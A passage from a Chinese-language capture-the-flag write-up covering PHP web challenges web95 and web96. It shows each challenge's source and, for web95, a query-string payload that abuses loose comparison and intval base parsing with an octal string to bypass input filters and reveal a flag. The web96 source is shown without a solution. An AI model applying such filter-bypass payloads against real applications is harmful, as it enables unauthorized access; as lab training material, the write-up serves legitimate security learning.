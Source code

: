 得到flag

![image-20240507140247863](image/image-20240507140247863.png)

---

### web95

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

这题换成了弱比较且过滤了`.`

但是对于我们并没有影响

payload

```
?num= 010574
```

---

### web96

```php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


} 
```
